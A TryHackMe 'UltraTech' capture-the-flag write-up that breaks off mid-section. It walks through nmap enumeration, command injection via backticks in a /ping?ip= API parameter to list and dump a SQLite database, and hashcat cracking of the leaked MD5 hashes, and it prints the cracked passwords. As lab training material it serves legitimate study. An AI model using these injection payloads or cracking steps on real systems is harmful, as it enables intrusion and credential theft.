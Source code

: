 <h1> TryHackMe UltraTech writeup - Medium </h1>

The basics of pentration testing, enumeration, privlilege escaltion, and webapp testing

## Part 1 - Enumeration

The first thing im going to do is run an nmap scan on the target IP address (10.10.208.199).

<p><span style="color:green"><em>
Starting Nmap 7.60 ( https://nmap.org ) at 2024-08-27 18:11 BST
Nmap scan report for ip-10-10-208-199.eu-west-1.compute.internal (10.10.208.199)
Host is up (0.00089s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
8081/tcp open  blackice-icecap
MAC Address: 02:3C:7E:9D:8D:85 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.80 seconds
</em></span></p>



### Which software is using the port 8081?

- To find this I did an nmap scan looking for the service and version (-sV) specificly on port 8081.
    - `nmap -sV 10.10.208.199`

<p><span style="color:green"><em>
PORT     STATE SERVICE VERSION
8081/tcp open  http    Node.js Express framework
MAC Address: 02:3C:7E:9D:8D:85 (Unknown)
</em></span></p>

From this we can see that the software running is Node.js.

### Which other Non-standard port is used?
- To find this, I ran an nmap scan that scans all ports rather than just the top 1000
    - `nmap 10.10.208.199 -p-`

<p><span style="color:green"><em>
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
8081/tcp  open  blackice-icecap
31331/tcp open  unknown
</em></span></p>

From this we can see that 31331 is the other non standard port running.

### Which software using this port?
- To find this, I ran an nmap scan that looks for the service and version (-sV) on port 31331.
    - `nmap -sV 10.10.208.199 -p 31331`

<p><span style="color:green"><em>
PORT      STATE SERVICE VERSION
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 02:3C:7E:9D:8D:85 (Unknown)
</em></span></p>

From this we can see that Apache is the software using this port.

### Which GNU/Linux distribution seems to be used?
- To find this we can use the nmap scan from above.
- We can see that Ubuntu is the GNU/Linux distribution being used.

### The software using the port 8081 is a RESTapi, how many of its routes are used by the web application?
- To find this we can use an nmap scan that goes into more detail, -A.
    - `nmap -A 10.10.208.199 -p 8081`

<p><span style="color:green"><em>
PORT     STATE SERVICE VERSION
8081/tcp open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
MAC Address: 02:3C:7E:9D:8D:85 (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.13 (97%), Linux 3.8 (96%), ASUS RT-N56U WAP (Linux 3.4) (95%),
Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%),
Linux 3.10 (92%), Linux 3.19 (92%), Linux 3.2 - 4.8 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.56 ms ip-10-10-208-199.eu-west-1.compute.internal (10.10.208.199)
</em></span></p>

From this we can see there are 2 Rest api's; _http-cors, and _http-title. 

## Part 2 - Explotation

### There is a database lying around, what is its filename?
- To start off, I opened my web browser and went to http://10.10.208.199:8081. The only thing to pop up is
  UltraTech API v0.1.3, which might be vulnerable. Im going to look at the other port before attempting to exploit this one.
- When looking at http://10.10.208.199:31331, we find a somewhat sophisticated looking webpage.
  Upon futher inspection on the Aboutus page we find a list of potential users.

<p><span style="color:green"><em>
John McFamicom | r00t
Francois LeMytho | P4c0
Alvaro Squalo | Sq4l
</em></span></p>

-Continuing on, we find a contact page that throws a 404 error. it also shows that apache version 2.4.29 which might come in handy if that version is vulnerable. 
- The next thing I look at is the robots.txt file, this leads me to /utech_sitemap.txt. Continuing to follow this path leads us to find.

<p><span style="color:green"><em>
/
/index.html
/what.html
/partners.html
</em></span></p>

- /partners.html seems interesting as it wasnt on the main page. Upon further invesigation we find that this is a login page. Looking into the .html code we find a custom written api file "api.js":

```.js
(function() {
    console.warn('Debugging ::');

    function getAPIURL() {
	return `${window.location.hostname}:8081`
    }
    
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
		if (req.readyState === 4) {
		    if (req.status === 200) {
			console.log('The api seems to be running')
		    } else {
			console.error(req.statusText);
		    }
		}
	    };
	    req.onerror = function (e) {
		console.error(xhr.statusText);
	    };
	    req.send(null);
	}
	catch (e) {
	    console.error(e)
	    console.log('API Error');
	}
    }
    checkAPIStatus()
    const interval = setInterval(checkAPIStatus, 10000);
    const form = document.querySelector('form')
    form.action = `http://${getAPIURL()}/auth`;
    
})();
```

- Im relativly new to api's but by analyzing the code we see that the function getAPIURL returns the domain name of the web host port 8081. Then then function checkAPIStatus goes to the url http://10.10.90.74:8081/ping?ip=10.10.90.74 . Which might be worth looking into before moving forward.
- After going to that web address, we can see that it returns the ping command. This looks like a form of remote code execution. Returned ping:
<p><span style="color:green"><em>
PING 10.10.90.74 (10.10.90.74) 56(84) bytes of data. 64 bytes from 10.10.90.74: icmp_seq=1 ttl=64 time=0.037 ms --- 10.10.90.74 ping statistics --- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/mdev = 0.037/0.037/0.037/0.000 ms
</em></p>
- The first thing I do is try to find out where I am in the system, I do this by running the command pwd
	- http://10.10.90.74:8081/ping?ip=`pwd`, this is the output:
<p><span style="color:green"><em>
ping: /home/www/api: Temporary failure in name resolution 
</em></p>
- We can see that our wokring directory is /home/www/api
- Now we can start looking around and trying to find the database filename. 
- The next command im going to run is a simple ls
	- http://10.10.90.74:8081/ping?ip=`ls`, this is the output:
<p><span style="color:green"><em>
ping: utech.db.sqlite: Name or service not known 
</em></p>
- Great! the name of the database is utech.db.sqlite

### What is the first user's password hash?
- To find the first user's password hash I belive we should try to look in the ultratech database file. To do this I will use the same method I did to find the database.
	- http://10.10.90.74:8081/ping?ip=`cat utech.db.sqlite`
 <p><span style="color:green"><em>
ping: ) \ufffd\ufffd\ufffd(Mr00tf357a0c52799563c7c7b76c1e7543a32)Madmin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded
 </em></p>   

From this we can see that the username and password hash.

<p><span style="color:green"><em>
r00t 	: f357a0c52799563c7c7b76c1e7543a32
admin	: 0d0ea5111e3c1def594c1684e3b9be84
</em></p>

### what is the password associated with this hash?

- To find the hash values, I will use hashcat.
	- hashcat -m 0 -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt
<p><span style="color:green"><em>
r00t	: n100906
admin	: mrsheafy
</em></p>

## Part 3 - Gathering Intel 

### what are the first 9 characters of the root user's private SSH key?

- The first thing im going to do is log into the ssh server using the user:pass we found in the last section.
- The admin account doesnt work for the ssh server but it might for the :31331/partners.html login page. It brings us to message from lp1 to please look at the servers configuration files.
- r00t is able to log into the ssh server.
-   

  

